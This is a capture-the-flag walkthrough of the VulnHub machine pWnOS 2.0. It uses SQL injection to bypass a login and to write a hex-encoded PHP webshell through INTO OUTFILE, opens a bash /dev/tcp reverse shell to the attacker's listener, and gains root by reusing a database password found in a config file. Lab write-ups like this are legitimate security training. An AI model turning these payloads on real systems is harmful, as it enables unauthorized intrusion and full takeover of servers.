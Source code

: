```yaml
---
title: VulnHub - pWnOS 2.0
author: ret2x
date: 2021-12-07 15:10:46 +0800
categories: [Walkthrough, VulnHub]
tags: [vulnhub, sqli, file disclosure]
image:
    path: /assets/images/pwnos2/front.png
---
```


**Description:** A linux machine hosting a web application vulnerable to SQL Injection in which the File_Priv permission was leveraged to write a webshell on the server and thus obtaining the first foothold. Password reuse allowed to get root privileges.

**Author:** pWnOS

**Operating System:** Linux

**Download:** [https://www.vulnhub.com/entry/pwnos-20-pre-release,34/](https://www.vulnhub.com/entry/pwnos-20-pre-release,34/)

## Information Gathering
### Host Discovery

The virtual machine has an static IP address set up, so we must assign an IP in the same addressing range, as shown below: 

```console
root@kali:~$ ip addr add 10.10.10.200/24 dev vmnet1
```

An scan with arp-scan allowed us to detect the address of our target.

```console
root@kali:~$ arp-scan -I vmnet1 10.10.10.0/24                                                   
Interface: vmnet1, type: EN10MB, MAC: 00:50:56:c0:00:01, IPv4: 192.168.179.1
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
10.10.10.100    00:0c:29:a3:96:fa       VMware, Inc.
```

### Port Scanning

A full TCP port scan with nmap discovered two open ports.

```console
root@kali:~$ nmap -n -v -T4 -p- 10.10.10.100 -oG nmap/all-tcp-ports.txt
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Service Enumeration

Service detection and script scanning were performed against the target machine in orer to detect more information about open ports.

```console
root@kali:~$ nmap -sV -sC -p22,80 -n -v 10.10.10.100 -oN nmap/service-enum.txt
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.8p1 Debian 1ubuntu3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 85:d3:2b:01:09:42:7b:20:4e:30:03:6d:d1:8f:95:ff (DSA)
|   2048 30:7a:31:9a:1b:b8:17:e7:15:df:89:92:0e:cd:58:28 (RSA)
|_  256 10:12:64:4b:7d:ff:6a:87:37:26:38:b1:44:9f:cf:5e (ECDSA)
80/tcp open  http    Apache httpd 2.2.17 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.17 (Ubuntu)
|_http-title: Welcome to this Site!
```

### Web Enumeration

The web server contains a simple web page with a welcome message.

![](/assets/images/pwnos2/screenshot-1.png)

Running dirsearch allowed other web resources to be discovered.

```console
root@kali:~$ dirsearch -u http://10.10.10.100/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
...
[18:41:40] Starting: 
[18:41:41] 301 -  311B  - /blog  ->  http://10.10.10.100/blog/
[18:41:41] 200 -    1KB - /login
[18:41:41] 200 -    2KB - /register
[18:41:41] 200 -   50KB - /info
[18:41:44] 200 -  854B  - /index
[18:41:45] 301 -  315B  - /includes  ->  http://10.10.10.100/includes/
[18:42:32] 302 -    0B  - /activate  ->  http://10.10.10.100/index.php
[18:53:38] 403 -  293B  - /server-status
```

In the web page, a form login is vulnerable to SQL Injection, so the login was bypassed.

![](/assets/images/pwnos2/screenshot-2.png)

![](/assets/images/pwnos2/screenshot-3.png)


## Exploitation
### Mysql File Privileges

Another interesting way is to try to write content on the server taking advantage of the SQL Injection vulnerability, the following request tries to dump all users of the database and write them to a file called dump in the includes directory.

`' or 1=1 into outfile '/var/www/includes/dump'-- -`

![](/assets/images/pwnos2/screenshot-4.png)

As we can see the file was written, showing us the only registered user.

```console
root@kali:~$ curl -s http://10.10.10.100/includes/dump                            
1       Dan     Privett admin@isints.com        c2c4b4e51d9e23c02c15702c136c3e950ba9a4af        0       \N      2011-05-07 17:27:01
```

Now we will try to write a webshell on the server, for that we need to know the column numbers.

First we must intercept the login request and send it to **Intruder**, we choose the attack type "sniper", and highlight the parameter to test.

![](/assets/images/pwnos2/screenshot-5.png)

Set the payload type to "Numbers", in **Payload Options** we choose numbers from 1 to 10, as shown in the following screenshot.

![](/assets/images/pwnos2/screenshot-6.png)

Then, click on **Start Attack**, as we can see in the following image there are 8 columns.

![](/assets/images/pwnos2/screenshot-7.png)

When trying to enumerate the ninth column the server responds with an error.

![](/assets/images/pwnos2/screenshot-8.png)

Then, we hex encode the webshell.

```console
root@kali:~$ echo -n "<?php passthru(\$_GET['cmd']); ?>" | xxd -ps | tr -d '\n'; echo
3c3f70687020706173737468727528245f4745545b27636d64275d293b203f3e
```

We use the following SQL statement to write it to the server.

`' and 1=2 union select 0x3c3f70687020706173737468727528245f4745545b27636d64275d293b203f3e,0x20,0x20,0x20,0x20,0x20,0x20,0x20 into outfile '/var/www/includes/z.php'-- -`

![](/assets/images/pwnos2/screenshot-9.png)

Now we can execute system comands.

```console
root@kali:~$ curl -s "http://10.10.10.100/includes/z.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We set up a netcat listener, and run the following curl request.

```console
root@kali:~$ curl -s "http://10.10.10.100/includes/z.php?cmd=$(urlencode -m '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.10.200/443 0>&1"')"
```

We got a shell as user www-data, and we upgrade it to a TTY shell.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.10.200] from (UNKNOWN) [10.10.10.100] 52171
bash: no job control in this shell
www-data@web:/var/www/includes$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@web:/var/www/includes$
```

Listing the web server, in the directory /var I found a MySQL connection file.

```console
www-data@web:/var$ cat mysqli_connect.php
...
DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');
...
```

## Privilege Escalation
### Password Reuse

We switch to user root entering the password to connect to MySQL.

```console
www-data@web:/var$ su -
su -
Password: root@ISIntS

root@web:~#id
id
uid=0(root) gid=0(root) groups=0(root)
```

Also we can access via SSH, since root login is anabled in the SSH configuration file.

```console
www-data@web:/var$ grep -i 'permitrootlogin' /etc/ssh/sshd_config
grep -i 'permitrootlogin' /etc/ssh/sshd_config
PermitRootLogin yes
```

```console
root@kali:~$ ssh root@10.10.10.100
root@10.10.10.100's password: 
root@web:~# id
uid=0(root) gid=0(root) groups=0(root)
```
